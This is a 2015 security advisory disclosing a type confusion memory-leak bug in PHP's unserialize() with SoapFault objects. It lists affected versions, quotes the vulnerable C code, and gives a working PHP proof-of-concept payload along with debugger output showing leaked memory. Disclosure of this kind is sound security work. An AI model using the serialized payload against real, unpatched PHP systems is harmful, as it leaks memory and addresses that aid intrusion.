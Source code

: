 # Type Confusion Infoleak Vulnerability in unserialize() with SoapFault
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.3.1 - Release Date: 2015.4.28
 
> A type confusion vulnerability was discovered in unserialize() with SoapFault object's __toString() magic method that can be abused for leaking arbitrary memory blocks.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.8  
Affected is PHP 5.5 < 5.5.24  
Affected is PHP 5.4 < 5.4.40    
Affected is PHP 5.3 <= 5.3.29

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

```
PHP_METHOD(SoapFault, __toString)
{
...
	faultcode   = zend_read_property(soap_fault_class_entry, this_ptr, "faultcode", sizeof("faultcode")-1, 1 TSRMLS_CC);
	faultstring = zend_read_property(soap_fault_class_entry, this_ptr, "faultstring", sizeof("faultstring")-1, 1 TSRMLS_CC);
	file = zend_read_property(soap_fault_class_entry, this_ptr, "file", sizeof("file")-1, 1 TSRMLS_CC);
	line = zend_read_property(soap_fault_class_entry, this_ptr, "line", sizeof("line")-1, 1 TSRMLS_CC);
...
	len = spprintf(&str, 0, "SoapFault exception: [%s] %s in %s:%ld\nStack trace:\n%s",
	               Z_STRVAL_P(faultcode), Z_STRVAL_P(faultstring), Z_STRVAL_P(file), Z_LVAL_P(line),
	               Z_STRLEN_P(trace) ? Z_STRVAL_P(trace) : "#0 {main}\n");

	zval_ptr_dtor(&trace);

	RETURN_STRINGL(str, len, 0);
}
```
 
The Z_STRVAL_P macro lead to looking up an arbitrary valid memory address, and return a string via a integer-type zval that start from this memory address. If the memory address is an invalid memory position, it should result in a crash.  
The Z_LVAL_P macro lead to leaking memory address via a string-type zval that this string value stored.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.2 installation of PHP 5.5.14.

```
<?php

$data = 'O:9:"SoapFault":4:{s:9:"faultcode";i:4298448493;s:11:"faultstring";i:4298448543;s:7:"'."\0*\0".'file";i:4298447319;s:7:"'."\0*\0".'line";s:4:"ryat";}';
echo unserialize($data);

?>
```

Test the PoC on the command line, then output some memory blocks and memory address:

```
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run test.php
SoapFault exception: [UH??AWAVSPI??I??H????
 in UH??AWAVAUATSH???:4307253992           ] UH??SPD???*?????t"H?
Stack trace:
#0 test.php(4): unserialize('O:9:"SoapFault"...')
#1 {main}
Process 889 exited with status = 0 (0x00000000)
```
